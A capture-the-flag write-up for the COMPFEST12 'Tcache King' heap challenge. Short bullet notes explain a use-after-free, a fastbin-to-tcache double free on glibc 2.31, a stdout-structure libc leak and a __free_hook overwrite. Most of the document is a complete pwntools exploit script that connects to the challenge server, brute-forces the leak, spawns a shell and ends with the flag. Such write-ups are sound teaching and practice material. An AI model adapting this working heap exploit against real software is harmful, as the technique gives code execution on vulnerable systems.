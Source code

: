 # Tcache-king

```python
			Challenge - 2 Solves
			 Tcache King - 1000
hahah Tcache go brrr

nc 128.199.157.172 20978

Alternate download link:
https://drive.google.com/file/d/1j7pscqy2wrIKFV0w5CXtn9BDIkjHJhQy/view?usp=sharing
```

- Nice and uniqe challenge :)
- There is obviuos UAF. We can do double free.
- But glibc 2.31 has check for tcache double free.
- We can use fastbin here. Allocating freeing 7 chunk of same size. After that if the size range in fastbin it will go to fastbin.
- We can point fastbin anywhere we want because it will all stash all the list after the current bin into tcache. And no size check perfomed.
- There are some restrictions in the binary.
- In add-note function
- We can only use alphanumeric characters in our note.
- This makes the challenge tricky.
- There is one more function called changename. which allocates 0x40 sized chunk.
- It allows all characters to be used in the chunk.
- There is no view() function. So my script guess four bits.
- Leak using stdout structure trick.
- There is nothing more new. Just requires Some heavy heap manipulation.
- I didn't knew that NULL bytes were allowed in add-note.
- I did this challenge without using null bytes in add-note :P
- free_hook is the best targate with tcache :)
```c
#### Addnote constraints
"""
|  0-9   |   A-Z   |   a-z   |
0x30-0x39|0x41-0x5A|0x61-0x7A|
"""
```
#### First-blood

#### Exploit
```python
#!/usr/bin/python3
from pwn import *

####Utils
def addnote(idx,size,contents):
	io.sendlineafter("Choice: ","1")
	io.sendlineafter("index: ",str(idx))
	io.sendlineafter("size: ",str(size))
	io.sendafter("contents: ",contents)

def deletenote(idx):
	io.sendlineafter("Choice: ","2")
	io.sendlineafter("index: ",str(idx))

def changename(username):
	io.sendlineafter("Choice: ","4")
	io.sendafter("username: ",username)

#### Addnote constraints
"""
|  0-9   |   A-Z   |   a-z   |
0x30-0x39|0x41-0x5A|0x61-0x7A|
"""
####Addr
_IO_2_1_stdin = 0x1eb980
_IO_2_1_stdout = 0x1ec6a0
system = 0x55410
__free_hook = 0x1eeb28

####Exploit
while True:
#	io = process(["./tcache_king_ld"],env={"LD_PRELOAD":"./libc6_2.31-0ubuntu9_amd64.so"})
	io = remote("128.199.157.172", 20978)
	io.sendafter("username: ","HKHK")
	changename("HK")
	for i in range(34,42):
		addnote(i,0xf8,"HK") #34~41
	for i in range(42,50):
		addnote(i,0x28,"HK") #42~49
	addnote(50,0x28,"HK") #50
	addnote(51,0x28,"HK") #51
	addnote(52,0x18,"HK") #52
	addnote(0,0x28,"HK") #0
	addnote(1,0x18,"HK") #1
	addnote(2,0x28,"HK") #2
	addnote(3,0x28,"HK") #3
	for i in range(42,49):
		deletenote(i)
	deletenote(2)
	deletenote(3)
	deletenote(2)
	for i in range(23,30):
		addnote(i,0x28,"HK") #23~29
	addnote(2,0x28,"\x30") #2
	for i in range(19,21):
		addnote(i,0x28,"HK") #19~20
	addnote(4,0x28,b"HK"*4+p8(0x51)) #4
	deletenote(0)
	changename(p64(0x0)*5+p64(0x101))
	for i in range(34,41):
		deletenote(i)
	for i in range(5,14):
		addnote(i,0x48,"HK"+str(i)) #5~13
	deletenote(6)
	changename(p64(0x0)*5+p64(0x21))
	deletenote(1)
	deletenote(0)
	changename(p64(0x0)*5+p64(0x101)+p16(0x3690))
	for i in range(13,6,-1):
		deletenote(i)
	deletenote(6)
	deletenote(5)
	deletenote(0)
	deletenote(6)
	for i in range(54,61):
		addnote(i,0x48,"HK") #54~60
	addnote(14,0x48,p8(0x70)) #14
	for i in range(30,33):
		addnote(i,0x48,"HK"+str(i)) #30~32
	print("Libc")
	try:
		changename(p64(0x0)*2+p64(0xfbad1800)+p64(0x0)*3+b"\x00")
		libc_leak = u64(io.recvn(0x10)[0x8:])
		libc_base = libc_leak-0x1eb980
		if libc_base&0xfff==0:
			print("Found")
			break
		else:
			io.close()
			continue
	except:
		io.close()
		continue
print(f"Libc base: {hex(libc_base)}")
deletenote(0)
changename(p64(0x0)*5+p64(0x101)+p64(libc_base+__free_hook))
for i in range(54,61):
	deletenote(i)
deletenote(6)
deletenote(5)
deletenote(0)
deletenote(6)
for i in range(54,61):
	addnote(i,0x48,"HK") #54~60
addnote(15,0x48,p8(0x70)) #15
for i in range(30,32):
	addnote(i,0x48,"HK") #30~31
addnote(32,0x48,"sh\x00") #32
changename(p64(libc_base+system))
deletenote(32)
#COMPFEST12{Tcache_King_here_is_your_crown_WwW_5ef79c}
io.interactive()
```
